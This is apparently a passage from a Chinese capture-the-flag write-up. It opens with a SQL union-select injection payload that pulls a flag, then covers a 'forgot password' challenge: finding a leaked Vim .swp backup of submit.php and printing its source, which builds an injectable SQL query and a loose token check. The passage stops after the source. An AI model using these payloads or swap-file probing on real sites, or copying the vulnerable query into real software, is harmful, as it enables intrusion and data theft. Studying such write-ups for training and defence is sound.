 ```
message_id="%00" union select 1,2,flag,4 from flag
```

### 忘记密码了

题目一开始只有一个文本框，要求填入email，随便填一个后有alert提示前往`/forget/step2.php?email=youremail@address.com&check=?????`进行下一步

发现网页源代码中有重要信息：

```html
	<meta name="admin" content="admin@simplexue.com" />
	<meta name="editor" content="Vim" />
```

并且`step2.php`中含有一个提交到`submit.php`的表单，有`emailAddress`字段和`token`字段

看到Vim可以想到Vim编辑器在非正常退出的情况下会留下`.swp`文件，经过逐个测试发现了`submit.php`的源码

```php
forget/.submit.php.swp
```

```php
........这一行是省略的代码........

/*
如果登录邮箱地址不是管理员则 die()
数据库结构

--
-- 表的结构 `user`
--

CREATE TABLE IF NOT EXISTS `user` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `email` varchar(255) NOT NULL,
  `token` int(255) NOT NULL DEFAULT '0',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM  DEFAULT CHARSET=utf8 AUTO_INCREMENT=2 ;

--
-- 转存表中的数据 `user`
--

INSERT INTO `user` (`id`, `username`, `email`, `token`) VALUES
(1, '****不可见***', '***不可见***', 0);
*/


........这一行是省略的代码........

if(!empty($token)&&!empty($emailAddress)){
	if(strlen($token)!=10) die('fail');
	if($token!='0') die('fail');
	$sql = "SELECT count(*) as num from `user` where token='$token' AND email='$emailAddress'";
	$r = mysql_query($sql) or die('db error');
	$r = mysql_fetch_assoc($r);
	$r = $r['num'];
	if($r>0){
		echo $flag;
	}else{
		echo "失败了呀";
	}
}
```